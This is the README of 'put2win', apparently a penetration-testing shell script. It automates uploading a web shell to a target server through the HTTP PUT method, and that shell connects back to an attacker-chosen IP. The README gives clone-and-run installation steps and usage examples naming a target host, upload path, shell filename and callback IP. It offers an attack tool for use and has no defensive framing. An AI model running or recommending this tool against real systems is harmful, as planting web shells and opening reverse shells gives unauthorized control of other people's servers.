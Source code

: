 # put2win
[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)

Script to automatize shell upload by PUT HTTP method to shell.

[![asciicast](https://asciinema.org/a/204195.png)](https://asciinema.org/a/204195)


# Installation
```
git clone https://github.com/sysdevploit/put2win
cd put2win
chmod +x put2win.sh
```

# Usage
```
This script automatize shell upload by PUT HTTP method to get shell.

Options:
  -t TARGET        Target URL/IP (e.g. 192.168.1.10)
  -p PORT          Target PORT (e.g. 8080)
  -u URL PATH      Path to save the shell (e.g. /uploads)
  -l LOCAL IP      IP where the shell will connect (e.g. 192.168.1.5)
  -s SHELL NAME    Shell name (e.g. license.php)

Examples of use:
 - ./put2win.sh -t 192.168.1.80 -u /uploads -l 192.168.1.10 -s readme.php
 - ./put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10
 ```
 
# Contact
Telegram: @devploit

Twitter: https://www.twitter.com/devploit

